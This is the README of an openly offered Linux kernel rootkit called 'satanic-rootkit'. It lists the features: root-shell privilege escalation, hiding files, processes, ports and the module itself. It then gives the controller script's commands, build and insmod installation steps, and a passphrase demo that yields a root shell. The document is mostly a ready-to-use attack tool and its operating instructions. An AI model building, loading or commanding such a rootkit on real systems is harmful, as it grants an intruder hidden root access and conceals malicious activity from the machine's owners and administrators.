 <div align="center">
  <img src="https://github.com/aesophor/satanic-rootkit/blob/master/.meta/banner.jpg">
  <b>CAUTION: Do NOT test this on physical machines!</b>
</div>

## Overview
* Local privilege escalation (grant root shell)
* File/directory hiding **by absolute path**
* Process hiding by PID
* Port hiding
* Hide the rootkit itself
* ...

## Usage
After inserting `satan.ko` into Linux kernel, one can use `satanist.py` to command the rootkit.
```
> ./satanist.py --help                 
usage: ./satanist.py <command> [argument]

--privesc <passphrase>     -- Spawn a root shell (bash).
--file-hide <path>         -- File/directory hiding by absolute path.
--file-unhide <path>       -- File/directory unhiding by absolute path.
--proc-hide <pid>          -- Process hiding by PID.
--proc-unhide <pid>        -- Process unhiding by PID.
--port-hide <port>         -- Port hiding by port number.
--port-unhide <port>       -- Port unhiding by port number.
--mod-hide                 -- Module hiding (hide itself from lsmod).
--mod-unhide               -- Module unhiding (unhide itself from lsmod).

-h --help                  -- Help message.
-v --version               -- Version info.
```

## Tested On
* Debian 9 stretch 4.9.0-11

## Build Requirements
* gcc
* GNU Make
* Linux headers

## Installation
1. Build kernel module.
```
$ git clone https://github.com/aesophor/satanic-rootkit.git
$ cd satanic-rootkit
$ make
```

2. Insert kernel module as root.
```
root# insmod satan.ko
```

3. Run satanist.py as normal user to command the rootkit.
```
$ ./satanist.py --help
```

4. Profit (?)
```
$ ./satanist.py --privesc 'Hail Satan!'
# whoami
root
```

## License
Available under [GPL-2.0 License](https://github.com/aesophor/satanic-rootkit/blob/master/LICENSE)

